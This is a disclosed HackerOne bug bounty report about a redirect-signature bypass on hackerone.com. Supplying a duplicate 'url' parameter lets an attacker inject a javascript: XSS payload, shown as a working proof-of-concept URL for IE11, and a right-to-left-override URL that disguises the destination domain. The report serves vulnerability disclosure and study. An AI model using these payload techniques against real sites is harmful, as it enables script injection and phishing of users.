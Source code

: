 # Query parameter reordering causes redirect page to render unsafe URL

## Report Details
- **Report ID**: 293689
- **URL**: https://hackerone.com/reports/293689
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-11-29T11:11:24.220Z
- **Disclosed**: 2017-11-30T06:09:18.879Z

## Reporter
- **Username**: kenziy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
Hello hackerone team

I want to report I bypass w/c lead to XSS (but limited only for IE) due to CSP block on chrome

Here is the POC
------------------
```
https://hackerone.com/redirect?signature=c9304cadaeabca0bfb7b92503c0318da5c42a86b&url=http%3A%2F%2Fbuglabs.me&url=JAVASCRIPT:alert%09(document.domain)
```

How I find this issue
-----------------------
First I notice that before you will redirect to other site hackerone will notify users that they are being redirected to other website
Here is example
------------------
```
https://hackerone.com/redirect?signature=c9304cadaeabca0bfb7b92503c0318da5c42a86b&url=http%3A%2F%2Fbuglabs.me
```
But when you change the url it will not match to the signature (h1 alers) by you can bypass it by adding &url
so it would look like this
```
https://hackerone.com/redirect?signature=c9304cadaeabca0bfb7b92503c0318da5c42a86b&url=http%3A%2F%2Fbuglabs.me&url=
```
Now I try doing this to trigger XSS
```
https://hackerone.com/redirect?signature=c9304cadaeabca0bfb7b92503c0318da5c42a86b&url=http%3A%2F%2Fbuglabs.me&url=JAVASCRIPT:alert%09(document.domain)
```
due to CSP protection I was not able to trigger XSS (My bypass skills on CSP is not good enought :-( )
But in IE it works :-)

I beleive that this is an issue

Minor RTLO that can treak users
------------------------------------
And another things is I try to do a RTLO on the URL (But because it has filter alert I dont know if this will trigger your interest)
```
https://hackerone.com/redirect?signature=c9304cadaeabca0bfb7b92503c0318da5c42a86b&url=http%3A%2F%2Fbuglabs.me&url=http%3A%2F%2F%09%E2%80%AEmoc.enorekcah
```

Tested
-------
IE11 - for XSS
Chrome, Mozilla - for RTLO


Advance Merry Christmas guys :-)

Cheers
Kenziy

## Impact

Trick user or trigger malicious script

## Attachments
- xss.png
- RTLO.png
